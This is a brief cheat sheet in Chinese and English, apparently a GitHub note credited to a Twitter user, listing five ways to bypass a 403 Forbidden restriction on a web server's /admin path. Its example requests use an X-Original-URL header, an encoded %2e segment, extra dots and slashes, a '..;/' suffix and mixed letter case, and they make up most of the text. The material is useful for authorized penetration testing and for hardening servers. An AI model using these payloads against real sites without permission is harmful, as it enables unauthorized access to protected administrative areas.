 # 403 Forbidden Bypass
use burp插件403bypass
1. 使用“ X-Original-URL”标题 header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. 在第一个斜杠后附加％2e
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. 尝试在网址中添加点（。）和斜杠（/）
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. 在目录名称后添加“ ..; /”
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. 尝试将网址中的字母大写
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)
